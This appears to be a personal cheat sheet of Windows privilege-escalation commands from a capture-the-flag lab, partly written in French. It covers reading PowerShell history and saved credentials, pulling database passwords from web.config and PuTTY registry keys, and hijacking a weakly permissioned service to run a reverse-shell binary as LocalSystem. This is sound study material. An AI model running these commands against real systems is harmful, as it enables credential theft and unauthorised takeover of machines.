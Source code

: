 # acess control
```
icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```
## check permissions on a file
```
icacls c:\tasks\schtask.bat
```
# Powershell History
## cmd
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
## powershell
```
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
# Saved Windows Credentials
Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:
```
cmdkey /list
```
While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.
```
runas /savecred /user:admin cmd.exe
```
# IIS Configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
Here is a quick way to find database connection strings on the file:
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
# Retrieve Credentials from Software: PuTTY
PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.
To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

# service
## start or stop
```
sc stop THMService
sc start THMService
```
## check service configuration
Windows services are managed by the Service Control Manager (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

To better understand the structure of a service, let's check the apphostsvc service configuration with the sc qc command:
```
sc qc <servicename>
```
## reconfigure service
Pour rechercher un service DACL à partir de la ligne de commande, vous pouvez utiliser Accesschk de la suite Sysinternals. Pour votre commodité, une copie est disponible à l'adresse C:\\tools. La commande pour vérifier la DACL du service thmservice est :
`C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS`
Ici, nous pouvons voir que le BUILTIN\\Usersgroupe dispose de l'autorisation SERVICE_ALL_ACCESS, ce qui signifie que n'importe quel utilisateur peut reconfigurer le service.
```
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```
